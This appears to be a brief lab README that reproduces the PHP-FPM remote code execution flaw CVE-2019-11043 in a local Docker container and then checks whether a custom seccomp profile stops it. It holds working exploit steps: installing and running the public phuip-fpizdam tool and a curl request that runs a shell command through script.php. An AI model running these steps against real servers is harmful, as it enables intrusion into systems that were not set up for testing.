 
Container: nunolopes97/cve-2019-11043
Run: sudo docker run -it -p 8080:80 nunolopes97/cve-2019-11043

Exploit:
    Install: go get github.com/neex/phuip-fpizdam
    Run: ./phuip-fpizdam http://127.0.0.1:8080/script.php
    RCE: curl http://127.0.0.1:8080/script.php?a=ls
    

Use custom seccomp profile and check that exploit does not work
Run: sudo docker run -it --security-opt seccomp=./nginx.json -p 8080:80 nunolopes97/cve-2019-11043
